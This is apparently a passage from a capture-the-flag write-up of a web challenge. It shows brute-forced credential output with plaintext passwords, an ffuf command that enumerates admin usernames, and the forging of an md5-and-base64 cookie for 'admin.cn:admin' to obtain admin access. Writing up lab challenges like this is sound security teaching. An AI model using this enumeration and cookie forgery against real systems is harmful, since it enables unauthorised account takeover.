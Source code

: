 
```
[*] Credentials found: user -> support.us pass -> Mustang#firebird1995
[*] Credentials found: user -> support.it pass -> Mustang#firebird1995
[*] Credentials found: user -> support.cn pass -> BisocaBuzau#20061985
```
Once we get in with one of the accounts and look at the cookie we have the following:
`username:role` -> `support.us:support` -> `af6172da1f353a9b9bbbaac3ac1ed4c4:434990c8a25d2be94863561ae98bd682`(md5)

But got nowhere..

Lets find admins: `ffuf -request ~/request_final_broken_admin -request-proto http -w ~/SecLists/Discovery/DNS/tlds.txt:FUZZ  -fr "user not found"`

We get: 
.cn                     [Status: 200, Size: 1485, Words: 91, Lines: 43, Duration: 109ms]
.gr                     [Status: 200, Size: 1485, Words: 91, Lines: 43, Duration: 148ms]
.it                     [Status: 200, Size: 1485, Words: 91, Lines: 43, Duration: 89ms]
.uk                     [Status: 200, Size: 1485, Words: 91, Lines: 43, Duration: 94ms]
.us                     [Status: 200, Size: 1485, Words: 91, Lines: 43, Duration: 124ms]

Tried the admin users with the password but found none.
Lets try to use the admin users inside the cookies.
Trying `admin.cn:admin` -> `81a73eb40ce50ae1ac0eaa31bb2a5714:21232f297a57a5a743894a0e4a801fc3`(md5) -> `ODFhNzNlYjQwY2U1MGFlMWFjMGVhYTMxYmIyYTU3MTQ6MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D`(base64) 

We finally get the flag!!